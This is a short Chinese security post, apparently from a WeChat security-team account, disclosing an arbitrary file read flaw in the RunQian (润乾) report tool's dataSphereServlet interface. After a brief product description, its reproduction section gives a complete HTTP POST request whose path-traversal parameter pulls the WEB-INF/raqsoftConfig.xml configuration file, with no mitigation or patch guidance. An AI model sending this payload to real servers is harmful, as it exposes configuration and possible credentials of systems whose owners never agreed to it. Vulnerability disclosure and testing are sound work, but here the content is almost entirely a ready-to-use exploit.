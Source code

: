 #  润乾报表dataSphereServlet接口存在任意文件读取漏洞   
原创 R0seK1ller  蟹堡安全团队   2024-08-04 20:27  
  
# 1. 漏洞描述  
  
	  
    润乾报表是一个纯JAVA的企业级报表工具，支持对J2EE系统的嵌入式部署，无缝集成。服务器端支持各种常见的操作系统，支持各种常见的关系数据库和各类J2 EE的应用服务器，客户端采用标准纯html方式展现，支持ie和netscape， 润乾报表是领先的企业级报表分析软件。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/yva8EEPh2zWrFTFHpA6V6uC9KEmlEAqk29AkQPbtib10CGiaUek83SkSAPVIfMFoibnqJSy0VVfehveEet6Kdm96g/640?wx_fmt=png&from=appmsg "")  
## 2. 漏洞复现  
```
POST /servlet/dataSphereServlet?action=11 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.31.133:6868/demo/
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 54

path=../../../WEB-INF/raqsoftConfig.xml&content=&mode=

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/yva8EEPh2zWrFTFHpA6V6uC9KEmlEAqkL9hkXJzxmKtnRIicDW7ahoj6KbVRwgEMdv4IaoqcX1w2tVPvUFXyUNA/640?wx_fmt=png&from=appmsg "")  
  
